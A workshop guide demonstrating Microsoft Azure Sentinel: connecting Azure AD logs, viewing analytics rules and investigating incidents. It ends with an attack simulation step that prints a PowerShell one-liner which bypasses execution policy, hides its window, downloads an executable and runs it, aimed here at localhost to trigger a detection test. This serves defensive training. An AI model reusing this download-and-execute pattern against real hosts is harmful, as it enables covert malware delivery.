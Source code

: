 # **Demo 12: Azure Sentinel**

## What is Azure Sentinel?

Microsoft Azure Sentinel is a scalable, cloud-native, security information event management (SIEM) and security orchestration automated response (SOAR) solution. Azure Sentinel delivers intelligent security analytics and threat intelligence across the enterprise, providing a single solution for alert detection, threat visibility, proactive hunting, and threat response.

Azure Sentinel is your birds-eye view across the enterprise alleviating the stress of increasingly sophisticated attacks, increasing volumes of alerts, and long resolution time frames.

- **Collect data at cloud scale** across all users, devices, applications, and infrastructure, both on-premises and in multiple clouds. 

- **Detect previously undetected threats**, and minimize false positives using Microsoft's analytics and unparalleled threat intelligence. 

- **Investigate threats with artificial intelligence**, and hunt for suspicious activities at scale, tapping into years of cyber security work at Microsoft. 

- **Respond to incidents rapidly** with built-in orchestration and automation of common tasks.

![ws name.](media/sentinel1.png)

To on-board Azure Sentinel, you first need to enable Azure Sentinel, and then connect your data sources. Azure Sentinel comes with a number of connectors for Microsoft solutions, available out of the box and providing real-time integration, including Microsoft 365 Defender (formerly Microsoft Threat Protection) solutions, Microsoft 365 sources (including Office 365), Azure AD, Microsoft Defender for Identity (formerly Azure ATP), Microsoft Cloud App Security, Azure Defender alerts from Azure Security Center, and more.

## Global prerequisites

- Active Azure Subscription, if you don't have one, create a [free account](https://azure.microsoft.com/free/?WT.mc_id=A261C142F) before you begin.

- Log Analytics workspace. Learn how to [create a Log Analytics workspace](https://docs.microsoft.com/en-us/azure/azure-monitor/logs/quick-create-workspace). For more information about Log Analytics workspaces, see [Designing your Azure Monitor Logs deployment](https://docs.microsoft.com/en-us/azure/azure-monitor/logs/design-logs-deployment).

- To enable Azure Sentinel, you need contributor permissions to the subscription in which the Azure Sentinel workspace resides.

- To use Azure Sentinel, you need either contributor or reader permissions on the resource group that the workspace belongs to.

- Additional permissions may be needed to connect specific data sources.

- Azure Sentinel is a paid service. For pricing information see [About Azure Sentinel](https://go.microsoft.com/fwlink/?linkid=2104058).

## **Task 1: Demo and Walkthrough of Azure Sentinel**

1. Sign in to the Azure portal and search for and select Azure Sentinel.

![ws name.](media/sentinel2.png)

2. Click on **log-analytics-avd-prod-EUS1-001**

![ws name.](media/sentinel3.png)

3. Click on **Data Connectors** and highlight the Connected Data connectors

![ws name.](media/sentinel4.png)

4. Click on **Azure Active Directory** and then click on **Open connector page**

![ws name.](media/sentinel5.png)

5. On this page you can highlight the **Sign-In** Logs checkbox which indicates that the AAD Sign Logs are now being sent over to Azure Sentinel.

![ws name.](media/sentinel6.png)

6. Click on **Next steps**; On this page you can highlight the **Relevant analytics templates** and showcase the in-built Rules that you can create for various types of events.

![ws name.](media/sentinel7.png)

7. Click on **Analytics**; On this page you can highlight the **Active Rules** and showcase the in-built Rules.

![ws name.](media/sentinel8.png)

8. Click on **Incidents**; On this page you can highlight the **Open, New and Active Incidents**. These are Test incidents generated as a result of a simulated malicious command line.

![ws name.](media/sentinel9.png)

9. Select any of the Incidents; Click on **Actions**, and then click on **Investigate**.

![ws name.](media/sentinel10.png)

10. On this page you can highlight the level of details that is shown, like how the process was run, what other child processes were created, who exceuted the process, etc.

![ws name.](media/sentinel11.png)

## **Task 2: Attack Simulation**

1. Using AVD Client on your JumpVM, Login to any of the Session Desktops with any of the User Accounts.

2. Open CMD as non-Admin, and execute the below Commandline.

       ```
       powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-WDATP-test\\invoice.exe');Start-Process 'C:\\test-WDATP-test\\invoice.exe'
       ```
This should take couple of minutes to report to Defender and then eventually being captured by Azure Sentinel. In sometime you should be able to see a new Incident getting created for the above malicious command execution.

![ws name.](media/sentinel12.png)

![ws name.](media/sentinel13.png)